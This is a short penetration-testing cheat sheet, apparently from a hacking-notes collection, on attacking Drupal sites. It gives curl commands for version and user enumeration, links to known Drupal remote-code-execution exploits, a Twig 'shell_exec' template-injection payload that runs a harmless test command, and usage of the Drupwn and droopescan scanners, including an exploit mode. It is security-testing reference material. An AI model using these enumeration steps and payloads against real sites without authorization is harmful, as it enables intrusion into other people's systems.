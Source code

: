 # 💧 Drupal
## Manual
```bash
# check meta
curl https://www.drupal.org/ | grep 'content="Drupal'
# version
curl https://drupal-site.com/CHANGELOG.txt
# node
curl drupal-site.com/node/1

# users
# 403 -> exists | 404 -> doesn"t
curl https://www.drupal.org/user/X
# get username
curl https://www.drupal.org/reset/user/X/1/1
```

### Exploits
### Drupal < 8.7.x Authenticated RCE module upload
{% content-ref url="https://www.drupal.org/project/drupal/issues/3093274" %}
{% content-ref url="https://www.drupal.org/files/issues/2019-11-08/drupal_rce.tar_.gz" %}

#### Drupal < 9.1.x Authenticated RCE Twig templates
{% content-ref url="https://www.drupal.org/project/drupal/issues/2860607" %}
"Administer views" -> new View of User Fields -> Add a "Custom text" :
```java
"{{ {"#lazy_builder": ["shell_exec", ["touch /tmp/hellofromviews"]]} }}"
```

#### If found /node/$NUMBER, the number could be devs or tests pages

#### Drupal < 8.6.9 - REST Module Remote Code Execution 
{% content-ref url="https://www.exploit-db.com/exploits/46459" %}

### Check for username disclosure on old versions:
>?q=admin/views/ajax/autocomplete/user/a

## Tools
### Drupwn
>Enumeration & Exploitation
{% content-ref url="https://github.com/immunIT/drupwn" %}

```bash
# install
git clone https://github.com/immunIT/drupwn.git
cd drupwn
pip3 install -r requirements.txt

# enum
drupwn --mode enum --target $url

# exploit
drupwn --mode exploit --target $url
```

### droopescan
{% content-ref url="https://github.com/SamJoan/droopescan" %}

```bash
apt-get install python-pip
pip install droopescan

# scan
 droopescan scan drupal -u example.org
```
